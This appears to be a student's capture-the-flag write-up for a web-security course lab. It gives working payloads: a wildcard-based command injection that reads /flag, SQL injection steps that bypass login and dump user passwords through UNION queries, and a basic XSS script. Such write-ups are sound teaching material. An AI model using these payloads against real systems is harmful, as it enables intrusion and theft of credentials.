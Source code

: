 ## Lookup 
### SSRF
#### COMP6443{NOT_ALL_DATABASES_ARE_SQL_z5346077_eFyevw8xLl9OlzV809L6}
1. Since all alphanumeric characters are stripped, we have to use bash wild cards. 
2. To `cat /flag`, find the binary file for `cat`. Lookup `/???/???/???` for `/usr/bin/cat` or `/???/???` for `/bin/cat`.
3. The binary file is `/bin/cat`. 
4. Lookup `; /???/??? /????` for `/bin/cat /flag`. 
<br>

## Webcms4
### SQLi 
1. Log in with username: `' or 1=1 -- test` and a random password: *password*. 
2. The user is logged in as Jack Smith. 
3. Search for `' or 1=1 -- test` and it returns all results. This tells that `'` is the sql syntax. 
4. Search `' or 1=1 union select 1,1,1,tbl_name from sqlite_schema; -- test` to view the tables in the schema. 
5. This leaks tables: *assignments*, *courses* and *users*. 
6. To view columns in the *users* table, search `' or 1=1 union select 1,1,1,name from pragma_table_info("users"); -- test`. 
7. This leaks all columns of the *users* table: *bio*, *image*, *name*, *password* and *sid*. 
8. To view sensitive information of all users, search `' or 1=1 union select sid, name, password, bio from "users" -- test`. 
9. This leaks all user information, including *Admin*. 
10. The user can logged in as the admin with username: *admin* and password: *cat*. 
11. To view all columns in the *assignents* table, search `' or 1=1 union select 1,1,1,name from pragma_table_info("assignments"); -- test`.
12. It leaks all columns of the *assignments* table: *id*, *name* and *spec*. 
13. To view the *assignments* table, search `' or 1=1 union select 1,id,name,spec from assignments; -- test`. 
14. It tells the target domain of *assignment1*: `assignment1.25b3582f3953bd7e.quoccabank.com`. 

### XSS
1. XSS can be injected to the website when editing the profile. 
2. Inject the XSS payload, `<script>alert(1)</script>` to the bio. 

### CSRF
1. The user can place malicious url in the profile pic field when editing the profile. 

### SSRF
1. Check submission??

## Legit Auth Page
### Recon
#### COMP6443{N0_mOr3_BI0G_SiTE_ChAlS_PLZ}
1. Go to `notwordpress.quoccabank.com`. 
2. View the source page. 
